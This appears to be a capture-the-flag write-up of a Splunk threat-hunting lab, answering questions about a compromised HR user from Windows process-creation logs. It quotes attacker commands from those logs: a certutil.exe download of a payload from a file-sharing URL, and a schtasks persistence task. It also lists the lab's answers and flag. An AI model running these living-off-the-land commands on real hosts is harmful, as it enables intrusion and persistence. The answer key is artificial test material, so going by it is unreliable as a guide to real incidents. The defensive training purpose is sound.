


# Benign

One of the client’s IDS indicated a potentially suspicious process execution indicating one of the hosts from the 
HR department was compromised. Some tools related to network information gathering/scheduled tasks were executed 
which confirmed the suspicion. Due to limited resources, we could only pull the process execution logs with 
Event ID: `4688` and ingested them into Splunk with the index `win_eventlogs` for further investigation.

All the required logs are ingested in the index `win_eventlogs`.

The network is divided into three logical segments. 

IT Department:

* James
* Moin
* Katrina

HR department:

* Haroon
* Chris
* Diana

Marketing department:

* Bell
* Amelia
* Deepak

## Questions

**How many logs are ingested from the month of March?**

Answer: `13959`

**Imposter Alert: There seems to be an imposter account observed in the logs, what is the name of that user?**

    index=win_eventlogs 
    | dedup UserName 
    | table UserName

Answer: `Amel1a`

**Which user from the HR department was observed to be running scheduled tasks?**

    index=win_eventlogs schtasks CommandLine="/create /tn OfficUpdater /tr \"C:\\Users\\Chris.fort\\AppData\\Local\\Temp\\update.exe\" /sc onstart"

Answer: `Chris.fort`

**Which user from the HR department executed a system process (LOLBIN) to download a payload from a file-sharing host.**

| 
|:--:|
| `haroon` |

    certutil.exe -urlcache -f - https://controlc.com/548ab556 benign.exe

**To bypass the security controls, which system process (lolbin) was used to download a payload from the internet?**

`benign.exe` was downloaded after a connection was established to `https://controlc.com/548ab556`. The `-f` and `-urlcache` forces a fetch of the url.

Answer: `certutil.exe`

**What was the date that this binary was executed by the infected host? format (YYYY-MM-DD)**

    index=win_eventlogs UserName="Daina" OR UserName="Chris.fort" OR UserName="Haroon" CommandLine=" certutil.exe -urlcache -f - https://controlc.com/548ab556 benign.exe" | dedup ProcessName

Answer: `2022-03-04`

**Which third-party site was accessed to download the malicious payload?**

Answer: `controlc.com`

**What is the name of the file that was saved on the host machine from the C2 server during the post-exploitation phase?**

Answer: `benign.exe`

**The suspicious file downloaded from the C2 server contained malicious content with the pattern THM{..........}; what is that pattern?**

| 
|:--:|
| `THM{KJ&*H^B0}` |

**What is the URL that the infected host connected to?**

Answer: `https://controlc.com/548ab556`